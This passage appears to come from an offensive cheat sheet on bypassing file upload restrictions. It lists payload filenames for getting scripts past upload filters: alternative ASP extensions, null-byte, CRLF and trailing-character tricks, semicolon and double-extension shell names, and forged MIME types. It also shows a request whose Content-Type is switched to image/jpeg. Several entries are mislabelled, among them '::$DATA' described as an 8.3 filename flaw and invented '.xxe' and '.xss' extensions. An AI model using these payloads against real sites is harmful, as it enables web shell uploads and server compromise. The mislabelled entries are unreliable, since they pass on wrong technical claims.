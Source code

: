 #### Alternative Extensions (ASP)
```
malicious.asp
malicious.aspx
malicious.ashx
malicious.asmx
malicious.cer
```

#### Special Characters
```
malicious.php%00.jpg   (Null byte - works in older PHP versions)
malicious.php%20       (Space character)
malicious.php%0d%0a.jpg (CR/LF characters)
malicious.php.....     (Trailing dots, stripped in Windows)
malicious.php/         (Forward slash, works in some configurations)
malicious.php\         (Backslash, works in Windows)
malicious.php::$DATA   (Windows 8.3 filename vulnerability)
```

#### Uncommon Extensions (Language-specific)
```
file.php.xxe         (XXE files)
file.php.shtml       (SSI injection)
file.php.xss         (Cross-site scripting)
file.php.hta         (Windows HTML Apps)
file.php.config      (ASP.NET config)
shell.php;.jpg       (Semicolon bypass)
shell.php.jpg/.      (Directory exploit)
```

### 2. MIME/Content-Type Bypass

#### Common MIME Types to Forge
```
image/jpeg
image/png
image/gif
application/pdf
text/plain
audio/mpeg
video/mp4
```

#### Content-Type Manipulation
```
# Original Request
Content-Disposition: form-data; name="uploadFile"; filename="malicious.php"
Content-Type: application/x-php

# Modified Request
Content-Disposition: form-data; name="uploadFile"; filename="malicious.php"
Content-Type: image/jpeg
```
